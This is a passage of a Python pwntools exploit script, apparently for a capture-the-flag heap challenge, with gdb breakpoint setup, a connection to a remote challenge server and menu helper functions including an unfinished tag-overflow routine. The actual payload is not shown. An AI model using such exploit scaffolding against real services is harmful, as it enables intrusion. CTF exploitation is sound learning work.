 ```python
            _bps = [0x2493,0x249d,0x24d2,0x24dc,0x24e6,0x24f0,0x24fa] 
            _bps += [0xb20, 0xb70, 0xeca]
            _source = '\n'.join(['b*%d' % (_offset + _) for _ in _bps]) + '\n'
            #watchpoints
            _wps = [0x2032f8]
            _source += '\n'.join(['watch *%d' % (_offset + _) for _ in _wps])
            # gdb.attach(p.proc.pid, execute=_source)
        else:
            _source = 'source peda-session-%s.txt' % _program
            gdb.attach(p.proc.pid, execute=_source)
else:
    libc = ELF('./libc.so.6.remote')
    p = remote('202.120.7.193', 7777)


payload = ''

def get_egg():
    p.recvuntil("Command")
    p.sendline("1")

def package_egg(size):
    p.recvuntil("Command")
    
    p.sendline("2")
    p.recvuntil("Size Expected")
    p.sendline(str(size))

def store_box():
    #store only one box in workline
    p.recvuntil("Command")
    p.sendline("3")

def get_box(index, tag_len = 0, tag = ''):
    p.recvuntil("Command")
    p.sendline("4")
    if p.recvuntil("Nothing Found In Storage.", timeout=0.3):
        return
    if tag_len != 0 and tag != '':
        setBoxTag(tag_len, tag)
    p.sendlineafter("box:", str(index))

def deliver_box(index, tag_len = 0, tag = ''):
    p.recvuntil("Command")
    p.sendline("5")
    if p.recvuntil("Nothing Found In Storage.", timeout=0.3):
        return
    if tag_len != 0 and tag != '':
        setBoxTag(tag_len, tag)
    p.sendlineafter("enter the index of the box:", str(index))


def list_all():
    p.recvuntil("Command")
    p.sendline("6")

def setBoxTag(tagLen, tag):
    p.recvuntil("length:")
    p.sendline(str(tagLen))
    p.sendline(tag)

def setTagOverflow():
    p.recvuntil("length:")
```